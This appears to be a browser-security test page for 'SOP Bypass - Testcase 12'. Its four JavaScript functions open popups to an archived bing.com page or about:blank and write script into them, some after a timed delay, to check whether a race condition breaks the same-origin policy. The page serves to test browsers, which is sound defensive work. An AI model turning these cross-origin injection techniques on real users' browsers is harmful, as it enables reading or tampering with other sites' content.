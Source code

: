 ```yaml
---
layout: default
title: SOP Bypass - Testcase 12
permalink: /sop/new/12
---
```


Testing for SOP bypass using window.open function and race condition

<script>
function sop1() {
    w = window.open('https://web.archive.org/web/20180831120305/http://www.bing.com', '_blank');
    w.document.write("<body><script>document.body.innerHTML=location.href;<\/script>");
}
function sop2() {
    w = window.open('https://web.archive.org/web/20180831120305/http://www.bing.com', '_blank');
    setTimeout(function() { w.document.write("<body><script>document.body.innerHTML=location.href;<\/script>"); }, 5000);
}
function sop3() {
    w = window.open('about:blank', '_blank');
    setTimeout(function() { w.document.write("<body><script>document.body.innerHTML=location.href;<\/script>"); }, 5000);
}
function sop4() {
    w = window.open('location.href', '_blank');
    w.document.write("<body><script>location.href = 'https://web.archive.org/web/20180831120305/http://www.bing.com';<\/script>");
    setTimeout(function() { w.document.write("<body><script>document.body.innerHTML=location.href;<\/script>"); }, 9000);
}
</script>

<input type="button" id="btn_test" class="test" value="Run Test Case 1" onclick="sop1()">
<input type="button" id="btn_test" class="test" value="Run Test Case 2" onclick="sop2()">
<input type="button" id="btn_test" class="test" value="Run Test Case 3" onclick="sop3()">
<input type="button" id="btn_test" class="test" value="Run Test Case 4" onclick="sop4()">

**Note:**
If page loads popup and displays bing.com in browser tab, your browser is vulnerable to SOP bypass. Please note that if the address bar is about:blank, the browser is safe.
